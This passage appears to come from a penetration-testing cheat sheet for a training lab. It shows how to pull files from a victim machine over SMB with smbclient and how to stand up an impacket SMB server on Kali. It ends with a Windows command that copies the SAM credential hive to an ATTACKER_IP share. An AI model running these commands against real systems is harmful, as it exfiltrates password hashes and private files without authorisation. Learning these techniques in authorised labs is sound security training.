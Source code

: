 #### SMB (Samba)
If the victim machine ***supports SMB file sharing***, you can use `SMBclient` from your kali machine to ***access shared folders and download files***:

**Attacker's Machine**
1. List the shared resources on the victim:
```
smbclient -L //victim_ip/ -U username
```

2. Access the share and download the file:
```
smbclient //victim_ip/sharename -U username
get file.txt
```

---
### SMB Server
Files can be transferred to the attacker's machine using SMB. Start a simple ***SMB server with impacket’s `smbserver.py`***, creating a share named ***public*** pointing to the ***share*** directory:

**Kali**
```
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Windows**
```
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
```


